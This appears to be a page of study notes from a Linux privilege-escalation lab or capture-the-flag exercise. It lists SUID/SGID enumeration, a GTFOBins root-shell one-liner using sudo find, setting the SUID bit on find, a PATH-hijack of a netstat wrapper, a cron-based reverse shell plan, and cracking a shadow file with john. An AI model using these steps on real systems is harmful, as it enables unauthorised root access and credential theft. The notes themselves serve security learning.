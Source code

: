 list SGID libraries

- `find / -type f -perm /2000 -ls 2>/dev/null` - look for if nay of these things are in gtfobins, then possibly look for other binaries 

Cron (scheudled tasks runing on the system)

cat /etc/crontab (look for cronjob that you could potentially change)

revshell.com 

var last log ascii files, cat auth.log /var/log directory 
`  cat /etc/rsyslog.d/50-default.conf `

[the art of web rsyslog] (https://www.the-art-of-web.com/system/rsyslog-config/_)
***
***
## Dan Notes
- enumeration for privilege escalation
  - `/etc/sudoers`
  - `sudo -l` to see what my user can do
- https://gtfobins.github.io/
  - ex. search find, select sudo, copy command
  - `sudo find . -exec /bin/sh \; -quit` gets you root shell
- list suid (set user id) binaries
  - `find / -type f -perm /4000 -ls 2> /dev/null`
- make find a suid binary
  - `chmod u+s /usr/bin/find`
- list sgid (set group id) binaries
  - `find / -type f -perm /2000 -ls 2> /dev/null`
- netstat_natpu stuff
  - `strings /bin/netstat_natpu | grep netstat`
  - note that this binary calls `netstat -antpu`
    - does not use the full binary path, which is a vulnerability
    - to exploit: add `.` to `$PATH`, make my own `netstat` binary
- world writable dirs
  - `find / -type d -perm /2 -ls 2> /dev/null`
- cron
  - `cat /etc/crontab`
- reverse shell, using gtfobins, https://www.revshells.com/
  - add to a script that's being run by cron
  - on another computer, listen for that connection, and then you're able to get root shell


***
rsyslog --> enumerate --> escalate --> cron last --> 2nd box root access 
***
### CTF Flags
Password craker, list, and something to crack against it 

john --wordlist=10mil.txt shadow.txt
john --show shadow.txt 
